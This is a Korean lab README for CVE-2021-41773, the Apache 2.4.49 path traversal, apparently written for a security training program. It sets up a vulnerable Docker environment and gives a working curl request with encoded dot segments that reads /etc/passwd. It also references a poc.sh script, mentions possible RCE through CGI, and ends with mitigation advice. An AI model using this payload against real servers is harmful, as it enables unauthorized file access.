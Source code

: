 # CVE-2021-41773 [Apache HTTP Server Path Traversal]

> 화이트햇 스쿨 3기 - [이준영 (@ljyoung04)](https://github.com/ljyoung04)

<br/>

## 요약

- Apache HTTP Server 2.4.49 버전의 경로 정규화 변경 사항에서 결함이 발견되었습니다.
- 이 결함을 사용하여 Path Traversal 공격을 수행하여 Alias와 유사한 지시문으로 구성된 디렉터리 외부의 파일에 접근할 수 있습니다.
- 또한 CGI 스크립트 실행이 활성화되어 있다면 RCE가 가능할 수도 있습니다.
- 실제로 악용된 사례가 있으며 오직 Apache 2.4.49 버전에만 해당됩니다.
- 이 취약점에 대한 수정이 이루어졌지만, 수정이 불완전하여 CVE-2021-42013으로 이어졌습니다.

<br/>

## 환경 구성 및 실행

다음 명령어를 입력하여 취약한 도커 환경을 구축할 수 있다.

```
$ sudo docker compose up -d
```

```
$ curl localhost:8080
<meta charset="UTF-8" />
<h1>WHS 3기 이준영</h1>
<h2>CVE-2021-41773 TEST</h2>
$
```

위 처럼 입력했을 때 출력이 같으면 환경이 잘 구축된 것이다.

아래와 같이 입력하여 Path Traversal 공격을 수행할 수 있다.

```
$ curl --path-as-is -v http://localhost:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

또는 poc.sh를 사용하여 공격을 수행할 수 있다.

```
$ ./poc.sh
Usage ./poc.sh <target> <port>

$ ./poc.sh localhost 8080
```

<br/>

## 결과

<img src="https://github.com/ljyoung04/kr-vulhub/blob/main/Apache/CVE-2021-41773/image.png">

<br/>

## 설명

vulhub에 존재하지 않는 CVE 환경을 구축하기 위해 CVE 자료를 찾아보던 중 CVE-2021-41773에 대해 알게 되었고, 이에 대해 조사를 해봤습니다.

CVE-2021-41773은 아파치 HTTP 서버 2.4.49 버전에서만 발생한다는 것을 알게되었고 도커 파일을 작성해 테스트해보게 되었습니다.

따로 이 CVE를 위한 이미지가 존재하지는 않아서 같은 디렉토리에 있는 dockerfile을 빌드해서 사용하도록 docker-compose.yml을 작성했습니다.

HTTP 서버를 바로 가져와서 실행하면 공격이 먹히지 않기 때문에 httpd.conf 파일의 일부분을 다음과 같이 수정해야합니다.

```
<Directory />
    ...
    Require all granted
</Directory>
```

이 지시자의 의미는 모든 사용자에게 루트 디렉토리 접근을 허용한다는 것입니다. 굳이 루트 디렉토리가 아니더라도 접근이 허용되어 있는 디렉토리가 있다면 공격할 수 있습니다.

이 취약점은 아파치 HTTP 서버 버전 2.4.49에서 새로운 경로 정규화를 도입하게 되었는데, URL 매핑 부분에서 인코딩된 문자열을 막지 못했기 때문에 발생했습니다.

curl --path-as-is -v 에서 --path-as-is는 URL 경로를 수정하지 않고 입력한 그대로 사용하라는 의미이고,
-v 옵션은 요청/응답의 자세한 정보를 보여주는 옵션입니다.

또한 서버에서 cgi 스크립트 실행이 허용되어 있다면 cgi-bin 폴더를 사용해 RCE가 가능합니다.
<br/>

## 결론

이 취약점은 Path Traversal을 통해 접근할 수 없는 파일에 접근할 수 있기 때문에, 서버의 중요 정보가 유출될 위험이 있고, 환경에 따라서 RCE가 가능할 수 있기 때문에 매우 위협적인 취약점이다.
이 취약점같은 경우에는 중요 파일들이 있는 디렉토리에 접근을 허용하지 않으면 traversal이 되지 않기 때문에 권한을 최소한으로 하는 것이 중요합니다. 또한 최신 보안 패치를 빠르게 받아 취약점에 대응하는 것도 중요합니다.

## PS.

> Pull Request :
